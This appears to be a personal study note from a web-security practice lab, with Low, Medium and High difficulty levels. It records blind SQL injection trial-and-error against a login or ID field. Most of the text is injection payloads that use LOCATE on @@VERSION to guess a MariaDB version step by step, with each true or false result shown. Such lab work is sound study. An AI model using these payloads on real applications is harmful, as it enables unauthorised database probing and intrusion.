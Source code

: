 ## Blind SQLi
- This one is purely based on trial and error, where you request a query that results true and then request a query that returns false. And by doing that we can eventually guess stuff.
- Below trial and error example is to get information regarding version of the data base
- Automated tool is done.
```
// ACTUAL VERSION - 10.4.17-MariaDB

1' AND LOCATE(10,@@VERSION); -- -      -> True

1' AND LOCATE(10.,@@VERSION); -- -      -> True

1' AND LOCATE(10.1,@@VERSION); -- -		-> False

1' AND LOCATE(10.4,@@VERSION); -- -      -> True

1' AND LOCATE(10.40,@@VERSION);-- -      -> False
1' AND LOCATE(10.41,@@VERSION);-- -      -> False
1' AND LOCATE(10.42,@@VERSION);-- -      -> False
1' AND LOCATE(10.43,@@VERSION);-- -      -> False
1' AND LOCATE(10.44,@@VERSION);-- -      -> False
1' AND LOCATE(10.45,@@VERSION);-- -      -> False
1' AND LOCATE(10.46,@@VERSION);-- -      -> False
1' AND LOCATE(10.47,@@VERSION);-- -      -> False
1' AND LOCATE(10.48,@@VERSION);-- -      -> False
1' AND LOCATE(10.49,@@VERSION);-- -      -> False

1' AND LOCATE("10.4.",@@VERSION);-- -      -> True

1' AND LOCATE("10.4.0",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.1",@@VERSION);-- -   -> True
1' AND LOCATE("10.4.2",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.3",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.4",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.5",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.6",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.7",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.8",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.9",@@VERSION);-- -   -> False

10.4.1

1' AND LOCATE("10.4.10",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.11",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.12",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.13",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.14",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.15",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.16",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.17",@@VERSION);-- -  -> True
1' AND LOCATE("10.4.18",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.19",@@VERSION);-- -  -> False

10.4.17

1' AND LOCATE("10.4.17.",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.170",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.171",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.172",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.173",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.174",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.175",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.176",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.177",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.178",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.179",@@VERSION);-- -         -> False

1' AND @@VERSION="10.4.17-MariaDB";-- -			-> True

1' AND "10.4.17"=@@VERSION;-- -
```

## Low
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked

## Medium
```
1 AND LOCATE(10,@@VERSION); -- -	-> True


1 AND LOCATE(10.4,@@VERSION); -- -	-> True


1 AND LOCATE(4.1,@@VERSION); -- -	-> True

1 AND LOCATE(4.17,@@VERSION); -- -	-> True

```
- Still gotta find a way to brute check string part of version.

## High
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked
